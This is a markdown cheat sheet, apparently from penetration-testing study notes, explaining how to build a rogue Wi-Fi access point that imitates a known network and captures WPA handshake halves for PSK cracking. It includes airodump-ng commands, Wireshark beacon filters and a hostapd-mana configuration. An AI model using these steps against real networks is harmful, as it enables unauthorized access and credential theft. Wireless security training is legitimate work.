 When clients connect to networks they stored the network in a list called Preferred Network List (PNL).  
This allows clients to reconnect to known networks when in range.  
When clients move around large areas or offices, several AP's with the same ESSID are used, allwoing the client to connect to new ones.  

The rogue AP will advertise the same ESSID as an existing AP, as well as encryption types used, and will broadcast a stronger signal making it more likely the client will connect to us over the existing one.  

Clients connecting to the rogue AP will give us 2 out of the 4 parts of the 4-way handshake, enough to attempts to crack the PSK.  

### Airodump
Enumerate AP info with airodump 
| Command  | Description |
|--|--|
| `airmon-ng start wlan0` | Enter monitor mode
| `airodump-ng wlan0mon -w discovery --output-format pcap` | Enumerate APs and save a pcap. Make note of target AP, ENC, and Cipher info.  

### Wireshark 
As airmon-ng reports only the highest levels of encryption supported, we use Wireshark to enumerate others that may be supported as well.  

| Wireshark Filter  | Description |
|--|--|
| `wlan.fc.type_subtype == 0x08` | Display beacon packets . Beacon = 8. Management = 0.  
| `&& wlan.ssid == "AP-Name"` | Only target the desired AP 

| IEEE 802.11 Wireless Management>Tagged Parameters    | Description |
|--|--|
| `TAG RSN Information visible` | WPA2 Supported.  
| `TAG Vendor Specific MS Corp WPA Information Element` | WPA Supported 
| `Auth Key Management ... PSK` | PSK in use
| `TAG Vendor Specific MS Corp WPA Information Element>Unicatse Cipher Suite` | Shows maybe AES(CCM) (CCMP) and TKIP   

### Creating Rogue AP  
`hostapd-mana` - Tool for creating a Rogue AP.  
`sudo apt install hostapd-mana`  

1. Build a config file. `nano AP-Name.conf`
```
interface=wlan0
ssid=AP-Name 
channel=3
hw_mode=g
ieee80211n=1  
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYTHING
wpa_pairwise=TKIP CCMP
rsn_pairwise=TKIP CCMP
mana_wpaout=/outputfile.hccapx
``` 
